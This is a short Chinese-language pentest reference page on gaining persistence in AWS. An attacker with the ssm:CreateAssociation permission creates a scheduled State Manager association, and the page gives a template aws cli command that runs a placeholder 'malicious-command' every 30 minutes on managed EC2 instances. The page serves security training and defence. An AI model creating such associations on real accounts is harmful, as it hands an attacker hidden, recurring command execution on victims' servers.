 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

有关更多信息，请查看：

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### 使用 ssm:CreateAssociation 进行持久性

具有 ssm:CreateAssociation 权限的攻击者可以创建一个状态管理器关联，以自动在由 SSM 管理的 EC2 实例上执行命令。这些关联可以配置为在固定间隔内运行，使其适合于类似后门的持久性，而无需交互式会话。
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> 该持久性方法在 EC2 实例由 Systems Manager 管理、SSM 代理正在运行且攻击者有权限创建关联时有效。它不需要交互式会话或明确的 ssm:SendCommand 权限。**重要：** `--schedule-expression` 参数（例如，`rate(30 minutes)`）必须遵循 AWS 的最小间隔 30 分钟。对于立即或一次性执行，请完全省略 `--schedule-expression` — 关联将在创建后执行一次。

{{#include ../../../banners/hacktricks-training.md}}
